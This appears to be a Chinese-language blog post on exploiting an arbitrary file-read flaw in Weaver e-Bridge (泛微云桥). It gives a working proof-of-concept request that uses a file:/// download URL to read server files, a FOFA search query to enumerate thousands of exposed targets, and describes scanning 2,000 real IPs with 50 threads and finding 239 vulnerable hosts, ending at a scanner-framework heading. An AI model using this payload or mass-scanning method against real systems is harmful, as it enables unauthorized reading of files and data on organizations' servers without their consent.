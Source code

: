 **漏洞复现：**复现过程很简单，两步就搞定

POC

```
/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///{文件路径}&fileExt=txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSHsWiaRvxSHbibx6fORCVj6c2ibmBxOII5TE4J0l6Mkpv0XVGDQSKzcleRl3ZTncfQ7fHHFSxrH4Ya9w/640?wx_fmt=png)

将读取到的 id，代入到下面这个 {id} 的位置即可读取到你需要读取的文件

/file/fileNoLogin/{id}

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSHsWiaRvxSHbibx6fORCVj6c2eekH3lrbzGIIvYGfo0LDFERzVulHqE3ZhtiaA9GDkJoRzGwDQ8kqnFQ/640?wx_fmt=png)

就是这么简单两步就可以判断漏洞啦

收集全网的泛微云桥的 url
--------------

最为重要的一步，收集足够多的目标。

最简单的方法，fofa 一个普通会员就行

```
app="泛微-云桥e-Bridge" && country="CN" && is_domain=false
```

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSHsWiaRvxSHbibx6fORCVj6c2JfllomROhulGvNm8ibNiabsvk0qsU3HF5nanRbJ8LzoSp9b2OTObRQkQ/640?wx_fmt=png)

这里我为什么要让 domain=false 呢。

因为 fofa 上泛微云桥的资源大部分都是 ip 的，域名的很少。

但是不慌，我们可能常规会想到去反查域名。

这里我们使用其他方法，可以让这些漏洞能更容易找到主人，先卖个关子往下看吧 23333

这里有 6k + 的目标哦。

通过 fofa 爬虫 + 普通会员先爬 2000 个 IP，然后拿自己写好的多线程框架跑一下 POC

先看看效果吧

爬虫结果：

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSHsWiaRvxSHbibx6fORCVj6c2sqic0OjbNKPbLAACthbnavUSheOjsATxBGZghL7QCBKPEwXMjBz8BPg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSHsWiaRvxSHbibx6fORCVj6c2RtaTsj6aqUKKEhiaIZbRakDHvZye88BhhSXqbLACMSQV0GQw7XjRP0A/640?wx_fmt=png)

这里我开了 50 个线程跑了 2000 个耗时 1 分多，就跑出来了 239 个漏洞

（其实去年我已经帮公司提交过一波了，结果还有这么多，看来大部分都不愿意修 23333）

建立一个简单的漏洞扫描小框架
--------------

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSHsWiaRvxSHbibx6fORCVj6c20S8cZd6IEkibVVYRyXBWnqib5WgkHv3SmT10ZVRTfcnZaAoicAbCYDgHw/640?wx_fmt=png)
